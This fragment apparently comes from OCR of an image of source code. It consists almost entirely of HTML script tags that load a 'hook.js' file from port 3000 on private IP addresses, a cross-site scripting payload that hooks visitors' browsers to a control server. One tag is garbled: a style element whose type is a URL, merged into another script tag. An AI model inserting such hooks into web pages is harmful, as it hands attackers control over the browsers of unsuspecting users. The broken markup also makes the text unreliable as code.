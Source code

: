 1234
<script src="http://192.168.42.255:3000/hook.js"> </script>
<style type="http://192.168.42.255:3000/hook.js"> <script src="http://192.168.31.203:3000/hook.js"></script>